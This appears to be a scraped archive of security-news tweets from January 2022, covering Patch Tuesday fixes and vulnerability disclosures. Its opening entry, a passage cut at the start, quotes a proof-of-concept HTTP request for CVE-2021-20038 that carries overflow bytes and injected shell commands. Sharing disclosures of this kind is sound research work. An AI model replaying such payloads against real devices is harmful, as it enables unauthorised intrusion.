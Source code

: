 GET /%04%d7%7f%bf%18%d8%7f%bf%18%d8%7f%bf%64%b8%06%08;{touch,/tmp/lol};%04%d7%7f%bf%18%d8%7f%bf%18%d8%7f%bf%64%b8%06%08;{touch,/tmp/lol};?aaaaaaaa...

https://t.co/y7NggxNg1I https://t.co/UjS8nqhUHr
</blockquote>

* https://attackerkb.com/topics/QyXRC1wbvC/cve-2021-20038/rapid7-analysis?fbclid=IwAR1ldORiwotSY0HeF_aLrYra1LuvJk7nlzfWg1HOT8AvnnvBfVcvUE1siTw

<table><tr>
<td><img src="pictures/b88c4432436a5ef5510e43bea3debb831424e88e8fed18bcedfd99b0613de983.jpg" alt="b88c4432436a5ef5510e43bea3debb831424e88e8fed18bcedfd99b0613de983.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>250</code></td>
<td>Favorites: <code>670</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1481155830179581952 _at 2022-01-12, 06:47:23_**
<blockquote>
First #Microsoft Patch Tuesday update of 2022 fixes 96 new vulnerabilities, including a critical "wormable" Windows RCE #vulnerability (CVE-2022-21907) in the HTTP Protocol Stack.

Read details: https://t.co/GNeuIIB6m2

#infosec #cybersecurity
</blockquote>

* https://thehackernews.com/2022/01/first-patch-tuesday-of-2022-brings-fix.html

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>119</code></td>
<td>Favorites: <code>163</code></td>
</tr></table>

---

# mj0011sec
**https://twitter.com/mj0011sec/status/1480994719560003584 _at 2022-01-11, 20:07:11_**
<blockquote>
First patch Tuesday of 2022! Adobe and Microsoft fixed 6 vulnerabilities reported by Kunlun lab. Two of them were demoed @TianfuCup. The CVE-2021-44706 was the RCE of PDF reader full chain and the CVE-2021-21881 was the Ntoskrnl bug for Chrome sandbox escape.
</blockquote>
